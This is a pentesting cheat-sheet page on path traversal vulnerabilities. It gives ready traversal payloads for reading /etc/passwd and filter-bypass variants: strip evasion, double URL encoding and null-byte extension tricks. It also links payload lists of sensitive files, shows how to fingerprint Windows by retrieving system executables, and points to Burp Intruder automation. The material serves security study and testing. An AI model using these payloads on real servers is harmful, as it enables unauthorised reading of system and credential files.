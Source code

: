 ```yaml
---
title: "Path traversal"
weight: 19
description: "Explore path traversal vulnerabilities, including bypass techniques and exploitation methods. Learn how attackers use encoding, double encoding, and null bytes to access restricted files on servers."
---
```


# Path traversal

## General info

Consider

```html
<img src="/loadImage?filename=218.png">
```

An attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem.

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

---

## Bypass defenses

* Elimination (strip): `../` -> `....//`
  * Test: try to change the original request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  * If the file is loaded the code strip `../`
* Encode: `../` -> `%2e%2e%2f`
* Double-encode: `../` -> `%252e%252e%252f`
* Require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
* Require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
* Others

{{< hint style=notes >}}
**Note**: On Windows, both `../` and `..\` are valid directory traversal sequences.
{{< /hint >}}

---

## Tips

* Don't always trust error messages
  * `GET /image?filename=/etc/passwd` -> "No such file"
    * Try to add null byte: `GET /image?filename=/etc/passwd%00`
    * Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
* Combine the cases:
  * Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist extension)
  * `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

---

## Common files

**Linux**: 
- https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt

**Windows**: 
- Short list: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-windows-list.txt
- Long list: https://github.com/soffensive/windowsblindread/tree/master

{{< hint style=tips >}}
**Tip**: On Windows, you can also try using a different drive letter than *C:*.
{{< /hint >}}

---

## Identify Windows version

1. Retrieve a Microsoft executable from the target system:
- `C:/Windows/explorer.exe`
- `C:/Windows/notepad.exe`
- `C:/Windows/system32/ntoskrnl.exe`

2. Check version information:
```bash
exiftool explorer.exe

[...]
OS Version                      : 10.0
Image Version                   : 10.0
Subsystem Version               : 10.0
Subsystem                       : Windows GUI
File Version Number             : 10.0.14393.7513
Product Version Number          : 10.0.14393.7513
File Flags Mask                 : 0x003f
File Flags                      : (none)
File OS                         : Windows NT 32-bit
Object File Type                : Executable application
File Subtype                    : 0
Language Code                   : English (U.S.)
Character Set                   : Unicode
Company Name                    : Microsoft Corporation
File Description                : Windows Explorer
File Version                    : 10.0.14393.7513 (rs1_release.241021-1750)
Internal Name                   : explorer
Legal Copyright                 : © Microsoft Corporation. All rights reserved.
Original File Name              : EXPLORER.EXE
Product Name                    : Microsoft® Windows® Operating System
Product Version                 : 10.0.14393.7513
[...]
```

3. Compare the version number with the following official table: https://learn.microsoft.com/en-us/windows/win32/sysinfo/operating-system-version.

{{< hint style=tips >}}
**Tip**: Some operating systems may share the same version name (e.g., Windows 10 and Windows 11), which can make identification tricky. To accurately determine the OS version, check the build number (e.g., `14393`) and refer to this resource: https://www.gaijin.at/en/infos/windows-version-numbers.
Alternatively, you can search the product version on Google for more information.
{{< /hint >}}



---

## Automation

Use intruder with this list: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep\_traversal.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/deep_traversal.txt)&#x20;
